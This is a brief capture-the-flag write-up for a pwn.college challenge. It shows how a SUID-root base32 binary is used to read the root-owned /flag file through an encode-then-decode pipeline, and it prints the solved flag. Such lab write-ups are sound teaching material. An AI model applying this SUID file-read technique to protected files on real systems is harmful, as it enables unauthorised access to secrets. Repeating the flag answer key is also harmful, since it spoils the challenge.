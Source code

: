 # Challenge Name: base32
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/base32`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/base32
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/base32
```

-The `s` in `-rws` indicates it's a SUID binary.
-`base32` runs with **root privileges**.

## 🚀 Exploitation

The `base32` command lets you encode or decode data using Base32, a binary-to-text encoding scheme that uses 32 ASCII characters.

```bash
myflag=$(base32 /flag)
echo "$myflag" | base32 --decode
```

Output:
```
pwn.college{0yrk_SqiqllhJjs5dX0aI_peczm.dJTNxwSM0IzMyEzW}
```

      
